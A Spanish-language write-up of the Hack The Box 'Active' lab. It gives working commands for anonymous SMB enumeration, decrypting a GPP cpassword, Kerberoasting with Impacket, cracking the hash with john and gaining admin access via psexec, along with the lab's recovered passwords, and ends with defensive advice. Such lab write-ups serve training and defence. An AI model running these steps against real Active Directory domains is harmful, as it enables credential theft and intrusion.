







# Active

## 🧾 Overview

- Plataforma: Hack The Box
- Dificultad: Easy
- Sistema Operativo: Windows
- Entorno: Active Directory

Este documento describe el proceso de compromiso de la máquina *"Active"* de la plataforma Hack The Box.

Trabajaremos sobre un entorno basado en Active Directory, que pone de manifiesto riesgos comunes como la exposición de recursos SMB, el uso de credenciales en políticas de grupo (GPP) y el uso de contraseñas débiles en cuentas de servicio.

A lo largo del análisis se seguirá una metodología estructurada basada en reconocimiento, enumeración, explotación y escalada de privilegios.

---

## 🌐 Reconocimiento

Comenzamos verificando la conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.10.10.100
```

La respuesta confirmó que el host estaba activo y accesible.

### NMAP

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn -sCV 10.10.10.100 -oN targeted
```

El resultado completo del escaneo es el siguiente:

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-13 10:14:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49164/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
49175/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-13T10:15:15
|_  start_date: 2026-01-13T10:10:38
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
```

Los resultados muestran la presencia de servicios SMB y un dominio asociado (active.htb) 

Esto orienta el análisis hacia la enumeración de recursos compartidos y posibles configuraciones incorrectas en el dominio.

Antes de continuar con la enumeración añadimos el nombre de dominio *"active.htb"* al fichero */etc/hosts*.

```bash
echo '10.10.10.100    active.htb' | sudo tee -a /etc/hosts
```

## 🔎 Enumeración

Dado que el servicio SMB estaba expuesto, priorizamos la enumeración de recursos compartidos en busca de información sensible.

Podemos optar por herramientas como *smbclient* o *smbmap* para listar recursos compartidos mediante un inicio de sesión anónimo.

Para esta fase utilizamos `smbmap` con el objetivo de identificar recursos compartidos accesibles.

### SMBMap

```bash
smbmap -H 10.10.10.100
```



Mediante el uso de *smbmap* identificamos un recurso compartido accesible el cual contenía información relevante.

Este tipo de configuraciones es habitual en entornos mal securizados y puede facilitar el acceso a credenciales o archivos críticos.

Continuando la enumeración a partir del recurso *Replication* encontramos un documento *Groups.xml*, un tipo de archivo el cual suele contener información sensible, como usuarios o contraseñas.

```bash 
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/'{31B2F340-016D-11D2-945F-00C04FB984F9}'/MACHINE/Preferences/Groups

smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/'{31B2F340-016D-11D2-945F-00C04FB984F9}'/MACHINE/Preferences/Groups/Groups.xml
```



Este archivo *Groups.xml* contiene una contraseña cifrada (cpassword).

Este tipo de credenciales almacenadas mediante Group Policy Preferences es conocido por ser reversible, permitiendo obtener la contraseña en texto plano con herramientas como gpp-decrypt.

El acceso sin credenciales a este recurso representa un punto de entrada crítico en el sistema.

## 💥 Explotación

Para descifrar el hash utilizaremos la herramienta gpp-decrypt, la cual nos permite mostrar en texto claro muchos de los hashes generados por Microsoft.

### gpp-decrypt

```bash
SVC_TGT:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

#Salida
GPPstillStandingStrong2k18
```

A continuación, validamos las credenciales obtenidas con `netexec`.

```bash
netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' 
```



Como vemos en la captura, las credenciales son válidas, por lo que podríamos acceder a la flag de usuario y descargarla en nuestro equipo para visualizarla con SMBMap.

Obtenemos una verificación positiva, pudiendo conseguir así la primera flag de usuario. 

> También podemos probar a conectarnos con *rpcclient* para enumerar usuarios y grupos del dominio.
>
> ```bash
> rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100
> ```

Descargamos la flag para visualizarla de manera local.

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop/user.txt

smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```

## 🔐 Escalada de Privilegios

En estos momentos aún no tenemos acceso a la máquina, por lo que debemos continuar enumerando.

A partir de las credenciales obtenidas intentamos realizar un ataque de AS-REP Roasting, técnica que permite obtener hashes sin autenticación previa en determinadas configuraciones.

Para ello nos ayudamos de la herramienta de Impacket *impacket-GetNPUsers*.

```bash
impacket-GetNPUsers active.htb/ -no-pass -userfile users.txt
```
Sin embargo, no se encontraron cuentas vulnerables a este ataque, por lo que descartamos esta vía.

A continuación, exploramos la posibilidad de realizar un ataque de Kerberoasting.

Esta técnica consiste en solicitar tickets de servicio (TGS) para cuentas con SPN registrados, los cuales pueden ser crackeados offline, y dado que disponemos de credenciales válidas resulta un vector viable.

```bash
impacket-GetUserSPNs 'active.htb/SVC_TGS:GPPstillStandingStrong2k18'
```



En este caso tenemos éxito, concluyendo que podemos solicitar un ticket de servicio (TGS) a partir del usuario SVC_TGS.
Una vez obtenido podremos extraer el hash de la contraseña del usuario Administrador.

Para ello basta con incluir la instrucción *-request* al final del comando anterior:

```bash
impacket-GetUserSPNs 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```

Crackeamos el hash obtenido con *john*.

```bash
john -w=/usr/share/wordlists/rockyou.txt admin_hash.txt
john --show admin_hash.txt
```



Una vez obtenidas estas credenciales, las validamos con *netexec*.

```bash
netexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```



La verificación de *netexec* muestra el compromiso del sistema.

> Podemos extraer la flag del usuario Administrador a través de *SMBMap* o conectarnos directamente a la máquina con *psexec.py*
> ```bash
> impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
> ```
> 
> 

## 🧠 Lecciones Aprendidas

- La enumeración de recursos SMB puede exponer información crítica en entornos Active Directory.
- El uso de credenciales en políticas de grupo (GPP) representa una vulnerabilidad grave si no se gestiona correctamente.
- Contraseñas débiles en cuentas de servicio facilitan ataques como Kerberoasting.
- La correcta interpretación de los servicios expuestos permite orientar eficazmente el proceso de explotación.

## 🛡️ Perspectiva de Defensa

- Restringir el acceso a recursos SMB únicamente a usuarios autorizados.
- Evitar el uso de Group Policy Preferences para almacenar credenciales.
- Implementar contraseñas robustas en cuentas de servicio.
- Monitorizar solicitudes anómalas de tickets Kerberos.